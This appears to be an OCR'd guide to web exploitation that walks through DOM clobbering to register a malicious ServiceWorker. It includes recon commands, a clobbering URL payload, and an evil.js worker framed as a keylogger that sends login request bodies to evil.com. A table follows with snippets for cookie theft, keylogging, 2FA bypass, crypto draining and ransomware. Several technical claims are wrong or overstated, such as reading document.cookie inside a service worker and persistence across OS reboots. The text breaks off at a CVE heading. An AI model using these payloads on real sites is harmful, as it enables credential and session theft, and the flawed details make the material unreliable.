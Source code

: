 
## 🛠️ STEP-BY-STEP EXPLOITATION

### **Phase 1: Recon (30s)**
```bash
# Find ServiceWorker endpoints
curl -s https://target.com | grep -i "serviceworker\|sw.js"
# Or Burp: Match/Replace: serviceWorker.*register
```

### **Phase 2: Clobber & Register (Payload Injection)**
**URL**: `https://target.com/#<script id=navigator name=serviceWorker><input name=register value=/evil.js>`

**evil.js** (Host on GitHub/Glitch):
```javascript
// Persistent keylogger + exfil
addEventListener('fetch', e => {
  e.respondWith(fetch(e.request).then(r => {
    // Log ALL keystrokes
    if (e.request.url.includes('/login')) {
      fetch('https://evil.com/steal?'+btoa(e.request.body));
    }
    return r;
  }));
});
```

### **Phase 3: Verify & Persist**
**Chrome DevTools**:
```
Application → Service Workers → [evil.js] → Status: activated
```
**Persistence**: Survives **tab close, browser restart, OS reboot**

### **Phase 4: Weaponize**
| Goal | evil.js Snippet | Exfil Target |
|------|-----------------|--------------|
| **Cookie Theft** | `fetch('https://evil.com/cookies?'+document.cookie)` | All sessions |
| **Keylogging** | `document.addEventListener('keydown', e => beacon(e.key))` | Login creds |
| **2FA Bypass** | `navigator.credentials.get()` | Auth tokens |
| **Crypto Drain** | `ethereum.request({method: 'eth_sendTransaction'})` | MetaMask |
| **Ransomware** | `fetch('/api/encrypt?key='+crypto.randomUUID())` | Enterprise |

---

## 🎯 REAL-WORLD CVEs (2025)

